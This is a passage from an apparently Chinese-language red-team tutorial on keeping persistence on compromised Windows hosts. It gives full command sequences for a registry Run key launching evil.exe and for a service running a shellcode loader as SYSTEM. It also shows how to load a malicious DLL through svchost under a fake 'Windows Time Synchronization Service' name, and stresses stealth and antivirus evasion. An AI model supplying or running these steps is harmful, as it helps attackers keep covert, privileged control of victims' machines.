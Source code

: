     reg add "XXXX" /v evil /t REG_SZ /d "[Absolute Path]\evil.exe"
    
        

**0x03 服务**

权限要求：未降权的管理员权限。

创建服务是需要非降权管理员权限的，因此拿到shell后要用这种方法做维持首先要提权，但其优点是隐蔽性比注册键高（如用svchost的服务组加载DLL就可以隐藏掉恶意进程）。CMD和Powershell都可以用命令添加服务，样例如下：

    sc create evil binpath= "cmd.exe /k [Absolute Path]evil.exe" start= "auto" obj= "LocalSystem"
    
        

这种直接通过cmd拉起的服务创建起来很简单。这里需要注意一个小坑：shellcodeloader主线程会阻塞导致服务启动时认为程序无响应而失败，因此必须用cmd拉起来，不能直接创建服务。服务正常启动后进程以SYSTEM权限在用户登录前运行。但缺点也很明显，恶意进程还是独立存在的，隐蔽性较差。如下图：

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201004224256716.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
还有一类服务是通过svchost启动，由于Windows系统中的许多服务都是通过注入到该程序中启动（这也是官方认可的DLL注入动作），因此只要DLL本身免杀，杀毒软件就不会理会这种行为，并且由于恶意进程并不是独立存在的，隐蔽性相对较高。

但使用svchost加载服务就不是一行命令可以完成的，不仅需要自己做一个服务DLL，还需要额外在注册表中添加一些东西。由于64位系统有两套注册表和两套svchost，因此命令还有微小的不同。

32位系统命令如下：

    sc create TimeSync binPath= "C:\Windows\System32\svchost.exe -k netsvr" start= auto obj= LocalSystem
    reg add HKLM\SYSTEM\CurrentControlSet\services\TimeSync\Parameters /v ServiceDll /t REG_EXPAND_SZ /d "C:\Users\hunter\Desktop\localService32.dll" /f /reg:32
    reg add HKLM\SYSTEM\CurrentControlSet\services\TimeSync /v Description /t REG_SZ /d "Windows Time Synchronization Service" /f /reg:32
    reg add HKLM\SYSTEM\CurrentControlSet\services\TimeSync /v DisplayName /t REG_SZ /d "TimeSyncSrv" /f /reg:32
    reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost" /v netsvr /t REG_MULTI_SZ /d TimeSync /f /reg:32
    sc start TimeSync
    
        

64位系统中注册32位服务命令如下：

    sc create TimeSync binPath= "C:\Windows\Syswow64\svchost.exe -k netsvr" start= auto obj= LocalSystem
    reg add HKLM\SYSTEM\CurrentControlSet\services\TimeSync\Parameters /v ServiceDll /t REG_EXPAND_SZ /d "C:\Users\hunter\Desktop\localService32.dll" /f /reg:32
    reg add HKLM\SYSTEM\CurrentControlSet\services\TimeSync /v Description /t REG_SZ /d "Windows Time Synchronization Service" /f /reg:32
    reg add HKLM\SYSTEM\CurrentControlSet\services\TimeSync /v DisplayName /t REG_SZ /d "TimeSyncSrv" /f /reg:32
    reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost" /v netsvr /t REG_MULTI_SZ /d TimeSync /f /reg:32
    sc start TimeSync
    
        

64位系统命令如下：

    sc create TimeSync binPath= "C:\Windows\System32\svchost.exe -k netsvr" start= auto obj= LocalSystem
    reg add HKLM\SYSTEM\CurrentControlSet\services\TimeSync\Parameters /v ServiceDll /t REG_EXPAND_SZ /d "C:\Users\hunter\Desktop\localService32.dll" /f /reg:64
    reg add HKLM\SYSTEM\CurrentControlSet\services\TimeSync /v Description /t REG_SZ /d "Windows Time Synchronization Service" /f /reg:64
    reg add HKLM\SYSTEM\CurrentControlSet\services\TimeSync /v DisplayName /t REG_SZ /d "TimeSyncSrv" /f /reg:64
    reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost" /v netsvr /t REG_MULTI_SZ /d TimeSync /f /reg:64
    sc start TimeSync
    